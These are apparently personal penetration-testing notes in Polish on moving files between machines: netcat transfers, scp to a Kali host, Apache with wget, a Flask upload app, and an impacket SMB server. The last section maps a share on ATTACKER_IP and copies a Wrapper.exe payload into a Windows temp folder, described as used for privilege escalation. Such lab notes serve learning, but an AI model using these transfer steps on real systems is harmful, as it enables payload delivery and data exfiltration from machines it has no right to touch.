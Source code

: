 # Content
1. [Podzial na fragmenty](#Podzial-na-fragmenty)
2. [Przeslanie nc](#Przeslanie-nc)
3. [Przeslanie przez ssh scp](#Przeslanie-przez-ssh-scp)
4. [Apache](#Apache)
5. [Upload flask](#Upload-flask)
6. [Using SMB server](#SMB-server)

# Podzial na fragmenty
### Mozna przed podzieleniem zakodowac do base64
```console
base64 -w file.ext > file_to_split
```
### Dobry sposob
Podzielenie na ilosc partii
```console
split -n 20 file_to_split
```
Zlaczenie podzielonych kawalkow
```console
cat x* > scale_file
```
### Pierwotna wersja
![](PodzielenieNaMniejszeFragmenty.png)



# Przeslanie nc
### Nasluch
```console
nc -nlvp 9999 > dane
```
### Wyslanie
```console
nc -n <ip> 9999 < file
```


# Przeslanie przez ssh scp
### Przeslanie
```console
scp file.ext kali@192.168.45.193:/tmp
```
### Pobranie pliku przez ssh
```console
scp kali@192.168.45.250:/home/kali/Desktop/ticket.doc ticket.doc
```

# Apache
Kopiujemy plik do /var/www/html
```console
systemctl start apache2
```
Pobieramy plik na innej maszynie
```console
wget http://naszeIP/zasob
```

# Upload flask
```console
git clone https://github.com/romeokienzler/flask-file-upload.git
```
```console
mv upload.py app.py
```
```console
flask run
```
Connect i browser **127.0.0.1:5000**

# SMB server
    Uruchamiamy server na kalim:
    sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
    
    Na windowsie 
    1) Podlaczamy zasow:
       1- net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
    2) Kopiujemy pliki
       1- copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
    3) Odlaczamy zasob
       1- net use \\ATTACKER_IP\share /del
    
    Tutaj takie cos bylo robione(Uprawnienia windows)
